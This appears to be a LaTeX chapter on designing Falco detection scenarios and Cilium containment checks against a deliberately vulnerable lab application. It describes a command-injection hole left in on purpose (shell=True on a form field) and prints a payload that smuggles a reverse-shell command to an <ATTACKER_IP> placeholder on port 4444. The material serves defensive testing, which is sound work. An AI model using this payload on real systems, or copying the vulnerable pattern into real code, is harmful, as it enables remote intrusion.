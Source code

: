 \chapter{Detection scenarios and rule design}
\label{ch:ch3}
\section{Scenario design}
The scenarios exercise distinct runtime behaviours: shell I/O redirection, credential
exposure, debugger evasion and execution of network tools. Execute them only against
the supplied vulnerable application in an authorized, isolated environment.
Detection and response are separate acceptance criteria: an alert alone does not
demonstrate quarantine, and a metadata patch alone does not demonstrate network deny.

\section{Command injection and reverse shell}
The application passes the form's \texttt{host} value into a shell command using
\texttt{subprocess.run(..., shell=True)}. A shell separator can therefore introduce
additional commands after the intended ping. This is a deliberate vulnerability,
not a recommended application pattern.

Prepare a controlled listener on TCP port 4444 in the isolated test environment.
The target's NodePort interface accepts the following payload, with the placeholder
replaced by that listener's address:
\begin{lstlisting}[language=bash]
127.0.0.1; bash -c 'bash -i >& /dev/tcp/<ATTACKER_IP>/4444 0>&1'
\end{lstlisting}
The relevant Falco rule is named exactly
\texttt{Redirect STDOUT/STDIN to Network Connection in Container}. The handler
matches the JSON rule name, not an abbreviated human-readable log message. Record
the actual event, including source, rule, pod name and namespace. Observe both
the handler result and Cilium enforcement before concluding that containment succeeded.
Application request timeouts or a closed listener are not evidence of quarantine.

